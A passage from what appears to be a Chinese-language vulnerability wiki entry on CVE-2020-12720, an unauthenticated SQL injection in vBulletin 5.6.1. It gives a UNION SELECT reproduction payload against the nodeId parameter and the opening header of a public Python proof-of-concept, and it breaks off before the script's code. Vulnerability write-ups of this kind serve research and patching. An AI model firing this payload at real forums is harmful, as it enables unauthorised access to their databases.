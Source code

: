 至于如何利用，就不赘述了，向上追溯调用链即可。

### 漏洞复现

    nodeId[nodeid]=1 AND text.nodeid = 1 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,user(),19,20,21,22,23,24,25,26--

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-12720)vBulletin未授权sql注入漏洞/media/rId32.png)打个断点就能快速定位漏洞点![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-12720)vBulletin未授权sql注入漏洞/media/rId33.png)

### poc

    CVE-2020-12720.py
    # Exploit Title: vBulletin 5.6.1 - 'nodeId' SQL Injection
    # Date: 2020-05-15
    # Exploit Author: Photubias
    # Vendor Advisory: [1] https://forum.vbulletin.com/forum/vbulletin-announcements/vbulletin-announcements_aa/4440032-vbulletin-5-6-1-security-patch-level-1
    # Version: vBulletin v5.6.x (prior to Patch Level 1)
    # Tested on: vBulletin v5.6.1 on Debian 10 x64
    # CVE: CVE-2020-12720 vBulletin v5.6.1 (SQLi) with path to RCE

    #!/usr/bin/env python3
    '''

        
        Copyright 2020 Photubias(c)

            This program is free software: you can redistribute it and/or modify
            it under the terms of the GNU General Public License as published by
            the Free Software Foundation, either version 3 of the License, or
            (at your option) any later version.

            This program is distributed in the hope that it will be useful,
            but WITHOUT ANY WARRANTY; without even the implied warranty of
            MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
            GNU General Public License for more details.

            You should have received a copy of the GNU General Public License
            along with this program.  If not, see <http://www.gnu.org/licenses/>.
            
            File name CVE-2020-12720.py
            written by tijl[dot]deneut[at]howest[dot]be for www.ic4.be

